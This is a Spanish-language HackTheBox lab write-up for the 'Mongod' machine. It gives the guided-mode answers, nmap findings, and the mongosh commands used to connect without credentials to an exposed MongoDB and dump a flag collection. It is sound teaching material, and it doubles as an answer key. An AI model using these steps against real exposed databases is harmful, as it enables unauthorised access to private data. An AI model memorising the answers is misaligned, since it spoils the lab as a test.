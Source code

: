 #easy #linux #ping #nmap #mongodb

----
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en la máquina?
	2

2)¿Qué servicio se ejecuta en el puerto 27017 del host remoto?
	MongoDB 3.6.8

3)¿Qué tipo de base de datos es MongoDB? (Elija: SQL o NoSQL)
	NoSQL

4)¿Cuál es el nombre del comando para el shell de Mongo que se instala con el paquete mongodb-clients?
	mongosh

5)¿Cuál es el comando utilizado para listar todas las bases de datos presentes en el servidor MongoDB? (No es necesario incluir un ; al final)
	show dbs

6)¿Cuál es el comando utilizado para listar las colecciones de una base de datos? (No es necesario incluir un ; al final)
	show collections

7)¿Cuál es el comando utilizado para volcar el contenido de todos los documentos de la colección denominada flag en un formato fácil de leer?
	db.flag.find().pretty()

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Mongod1.png]]

![[Mongod2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22`[[ssh]]
	`27017` [[mongodb]]

-----
# Intrusion por [[mongodb]]

Descargamos el binario para ejecutar [[Mongod]] por que no esta en la maquina
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://10.129.228.30:27017
```

Usando el binario de [[mongodb]] Ganamos acceso a la maquina

![[Mongod3.png]]

Una vez dentro, vamos a usar estos comandos para manejarnos por la base de datos, y a posteriori visualizamos la flag
```mongodb
show dbs
use sensitive_information
show colletions
db.flag.find().pretty()
```
![[Mongod4.png]]

----------
# Notas
Una base de datos es sql, cuando tiene el modelo tradicional de bases de datos que son tablas,columnas,filas,etc. Y cuando no tiene esto es una base de datos NOSQL

-------
# Creditos
Writeup Oficial HackTheBox